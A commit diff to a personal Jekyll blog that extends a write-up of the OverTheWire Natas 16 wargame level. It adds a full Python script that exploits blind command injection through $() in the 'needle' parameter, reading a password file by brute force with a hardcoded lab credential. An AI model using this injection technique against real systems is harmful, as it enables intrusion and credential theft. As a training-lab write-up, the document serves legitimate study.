

Before and after one commit to h15h4m/h15h4m.github.io, a Jekyll site: the page built from _posts/2018-01-14-natas-16-solution.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1278 px. Shown: the whole window, without its empty margins (319-959 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1908 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updating

```diff
--- a/_posts/2018-01-14-natas-16-solution.markdown
+++ b/_posts/2018-01-14-natas-16-solution.markdown
@@ -46,7 +46,73 @@ Reading the source code of the page we can find out that that there is a regex f
 
 We can use $() in order to inject our commands to the passthru() function, since none of the characters of $() exists in preg_match() filter.
 
-so the final command after injection will look like the following
+so the final command after injection will look like the following:
 {% highlight shell %}
 grep -i $(grep /etc/natas_webpass/natas17) dictionary.txt
 {% endhighlight %}
+
+We can mimic the same scienario in our local termianl, so we have a better understanding of the situation and how we are gonna solve this challenge.
+
+Mimicing the challenge, I am going to make some files
+
+flag.txt content
+{% highlight raw %}
+dGhpc2lzYXRlc3Rtb3RoZXJmdWNrZXJ5b29tYW1hYWFuCg==
+{% endhighlight %}
+
+So if we use the following command
+{% highlight shell %}
+grep -i $(grep ^d /tmp/flag.txt) /etc/passwd
+{% endhighlight %}
+
+As we can see the string in flag.txt starts with a 'd', so if we use '^' in order to know the characters in order in the flag file. Starting out with 'd' since flag starts with 'd', the commands will return no result; however, if we choose a character other than 'd' the terminal will hang with result return. This way we will be able to figure out the flag content for this challenge, so we can go to the next level.
+
+Here is the complete solution code for this level.
+
+
+{% highlight python %}
+#!/usr/bin/python
+#h15h4m
+
+# way better than the other libs
+import requests
+from requests.auth import HTTPBasicAuth
+
+
+chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
+string_to_find = "Output:\n<pre>\n</pre>"
+
+target = "http://natas16.natas.labs.overthewire.org/"
+http_login=HTTPBasicAuth('natas16','WaIHEacj63wnNIBROHeqi3p9t0m5nhmh')
+
+password_chars = ''
+password = ''
+
+r = requests.get(target , auth=http_login)
+
+if r.status_code != requests.codes.ok:
+	print "[-] Unable to access. Check Authentication."
+	exit()
+
+print "[!] cool. We are in!"
+
+print "[!] finding password chars...."
+
+#lets find password chars first easier for brute force later
+for x in chars_to_check:
+	r = requests.get(target + "?needle=$(grep "+ x +" /etc/natas_webpass/natas17)",auth=http_login )
+	if r.content.find(string_to_find) != -1:
+		password_chars = password_chars + x
+
+print '[+] password chars: '  +   password_chars
+
+print '[!] brut3 f0rc1ng the p455w0rd......'
+for x in range(32):
+	for xx in password_chars:
+		r = requests.get(target + "?needle=$(grep ^"+ password + xx +" /etc/natas_webpass/natas17)",auth=http_login )
+		if r.content.find(string_to_find) != -1:
+			password += xx
+			break
+
+print "[+] password: " + password
+{% endhighlight %}
```
